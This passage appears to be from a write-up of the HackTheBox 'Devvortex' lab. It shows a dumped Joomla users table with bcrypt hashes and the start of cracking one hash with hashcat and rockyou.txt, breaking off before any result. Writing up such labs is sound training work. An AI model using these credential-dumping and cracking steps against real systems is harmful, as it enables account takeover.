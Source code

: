 ```sql

# ...

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-02-05 12:54:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

mysql>
```

Terminal displays the horrific and illegible print-out of a wide SQL table as always, but the `$2y$10$...` prefix indicates we have some `bcrypt` hashes on our hands (I think they are cost-factor 10 hashes =  `2^10` Iterations. That could be a complete lie. Also kind of irrelevant).

I don’t think we really care about `lewis` anymore, so we’ll grab `logan`'s hash and run it through `hashcat` against `rockyou.txt`:

```bash
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ hashcat --help | grep -ie "bcrypt"
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan.bcrypt-hash
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ hashcat -a 0 -m 3200 logan.bcrypt-hash ~/git/red_tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting

CUDA API (CUDA 12.3)
====================
* Device #1: NVIDIA GeForce RTX 4090, 23126/24195 MB, 128MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
```
